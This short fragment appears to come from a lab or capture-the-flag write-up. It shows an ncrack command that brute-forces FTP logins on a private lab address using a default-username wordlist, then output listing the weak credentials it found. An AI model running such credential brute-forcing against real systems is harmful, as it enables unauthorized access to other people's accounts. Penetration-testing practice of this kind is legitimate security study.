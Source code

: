 `ncrack -U /usr/share/wordlists/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/wordlists/seclists/Usernames/cirt-default-usernames.txt ftp://10.0.2.15:21 -v`
>
Discovered credentials for ftp on 10.0.2.15 21/tcp:
10.0.2.15 21/tcp ftp: 'postgres' 'postgres'
10.0.2.15 21/tcp ftp: 'service' 'service'
10.0.2.15 21/tcp ftp: 'user' 'user'
